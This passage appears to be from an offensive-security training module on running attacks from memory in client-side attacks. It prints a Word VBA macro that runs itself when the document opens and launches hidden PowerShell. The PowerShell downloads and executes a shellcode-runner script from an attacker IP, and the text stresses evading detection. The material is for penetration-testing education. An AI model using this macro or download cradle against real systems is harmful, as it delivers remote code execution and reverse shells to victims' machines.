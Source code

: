 # 7. Reflective Code Execution in Client Side Attacks

## 7. Reflective Code Execution in Client Side Attacks

In this Learning Module, we will cover the following Learning Unit:

* Including Reflective Code

As security professionals, we must often avoid detection during exploitation, meaning it's preferable to perform attacks that reside entirely in memory. In this Module, we will combine the tradecraft we have developed so far to make use of PowerShell and C# code inside Client-Side attacks without writing to disk.

### 7.1. Including Reflective Code

This Learning Unit covers the following Learning Objectives:

* Reflective PowerShell in Client-Side Attacks
* Reflective C# in Client-Side Attacks

In this Learning Unit, we will implement the reflective PowerShell in Client-Side attacks like Microsoft Word macros, as well as investigate how to execute C# code in a reflective manner.

### 7.1.1. Reflective PowerShell in Client-Side Attacks

In previous modules, we developed the ability to craft a Microsoft Word macro that can contain a reverse shellcode runner. The main problem of this technique is that the shellcode itself would be written to disk temporarily. We have since developed the concept of reflective PowerShell - next, we must combine them so we can execute a reflective PowerShell shellcode runner from a Microsoft Word macro.

Listing 1 shows the Microsoft Word macro we developed previously:

```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.50.120/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

> Listing 1 - VBA code calling the PowerShell cradle that executes the shellcode runner

The _AutoOpen_ and _Document\_Open_ procedures will execute the _MyMacro_ procedure when the Word document is opened. The MyMacro procedure will start PowerShell and execute a download cradle of the file **run.ps1** from our Kali machine. Once the contents of the file are downloaded into the variable _str_, the content is executed.
